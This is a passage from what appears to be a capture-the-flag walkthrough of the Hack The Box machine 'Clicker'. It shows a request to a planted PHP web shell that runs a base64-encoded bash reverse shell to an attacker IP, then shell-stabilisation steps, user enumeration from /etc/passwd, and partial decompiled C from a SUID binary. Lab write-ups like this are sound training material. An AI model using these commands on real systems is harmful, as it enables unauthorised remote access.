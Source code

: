 ```
http://clicker.htb/exports/top_players_4poexjad.php?cmd=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjY5LzQ0NDQgMD4mMQo= | base64 -d | bash
```
![Alt text](image-31.png)

Stablize the shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```


## **Privilege Escalation**
### www-data to jack

```bash
cat /etc/passwd | grep sh$
```

![Alt text](image-32.png)

![Alt text](image-33.png)

![Alt text](image-34.png)
S
![SUID](image-35.png)

![Alt text](image-39.png)

![README](image-36.png)

![Alt text](image-37.png)

![Alt text](image-38.png)

Check strings from the executable.

Use online decompiler to tk inderstand how the executable works
[](https://dogbolt.org/)


```C
    int __fastcall main(int argc, const char **argv, const char **envp)
    {
    int result; // eax
    size_t v4; // rbx
    size_t v5; // rax
    size_t v6; // rbx
    size_t v7; // rax
    int v8; // [rsp+10h] [rbp-B0h]
    char *dest; // [rsp+18h] [rbp-A8h]
    char *name; // [rsp+20h] [rbp-A0h]
    char *command; // [rsp+28h] [rbp-98h]
    char s[32]; // [rsp+30h] [rbp-90h] BYREF
    char src[88]; // [rsp+50h] [rbp-70h] BYREF
    unsigned __int64 v14; // [rsp+A8h] [rbp-18h]

    v14 = __readfsqword(0x28u);
    if ( argc > 1 )
    {
        v8 = atoi(argv[1]);
```